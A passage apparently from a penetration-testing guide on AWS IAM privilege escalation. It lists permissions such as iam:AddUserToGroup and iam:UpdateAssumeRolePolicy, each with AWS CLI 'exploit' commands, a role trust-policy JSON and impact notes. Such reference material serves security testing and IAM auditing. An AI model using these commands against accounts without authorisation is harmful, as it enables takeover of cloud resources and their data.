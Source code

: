 **Impact:** Direct privilege escalation by adding permissions through policies.

### **`iam:AddUserToGroup`**

Enables adding oneself to an IAM group, escalating privileges by inheriting the group's permissions.

**Exploit:**

{% code overflow="wrap" %}
```bash
aws iam add-user-to-group --group-name <group_name> --user-name <username>
```
{% endcode %}

**Impact:** Direct privilege escalation to the level of the group's permissions.

### **`iam:UpdateAssumeRolePolicy`**

Allows altering the assume role policy document of a role, enabling the assumption of the role and its associated permissions.

**Exploit:**

```bash
aws iam update-assume-role-policy --role-name <role_name> \
    --policy-document file:///path/to/assume/role/policy.json
```

Where the policy looks like the following, which gives the user permission to assume the role:

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Action": "sts:AssumeRole",
            "Principal": {
                "AWS": "$USER_ARN"
            }
        }
    ]
}
```

**Impact:** Direct privilege escalation by assuming any role's permissions.

### **`iam:UploadSSHPublicKey` || `iam:DeactivateMFADevice`**

Permits uploading an SSH public key for authenticating to CodeCommit and deactivating MFA devices, leading to potential indirect privilege escalation.

**Exploit for SSH Key Upload:**

```bash
aws iam upload-ssh-public-key --user-name <username> --ssh-public-key-body <key_body>
```
